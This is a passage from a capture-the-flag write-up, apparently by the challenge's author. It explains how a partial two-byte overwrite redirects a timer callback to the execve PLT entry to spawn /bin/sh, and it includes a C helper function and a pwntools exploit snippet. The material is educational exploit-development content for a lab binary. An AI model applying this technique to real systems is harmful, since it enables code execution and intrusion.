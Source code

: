 exploit script until we get lucky.

Knowing this, we can try to move the function pointer within a 64 KiB region. Normally, this
function pointer will point to a function within the main binary, `robot_self_destruct()`.
Trying to point directly to `execve()` in libc won't work, as it's probably very far away in
memory. However, the source code contains this helpful function:

```c
static void wat(void)
{
	if (rand() < 0) {
		execve((void*)1, (void*)2, (void*)3);
	}
}
```

This function isn't directly useful as a corruption target, as it passes nonsensical values
to `execve()`. Rather, it is useful as it contains a call to `execve()`, which will add a
PLT entry for `execve()` in our program's main binary. The PLT entry of `execve()` is very
likely to be close enough to the `robot_self_destruct()` function to fall within that 64 KiB
window.

Here is the final exploit snippet for this stage:

```python
# R4: doesn't matter, just need to get to R5
info("R4: alignment")
build_robot(r, b"align", 4, False, False, 99 * SECS)

# R5: payload name, only partial send
execve_plt = exe.plt["execve"]
name = p64(binsh_addr)
name += p16(execve_plt & 0xffff)
info(f'R5: corrupt callback to execve.plt = {exe.plt["execve"]:#x}')
r.recvuntil(b"Name?\n")
r.send(name)

# Just wait for the timer to trigger
warn("Waiting for corrupted timer callback! This has a 6.25% success rate...")
r.interactive()
```

See my [exploit](solve.py) for the full solution used to validate this challenge.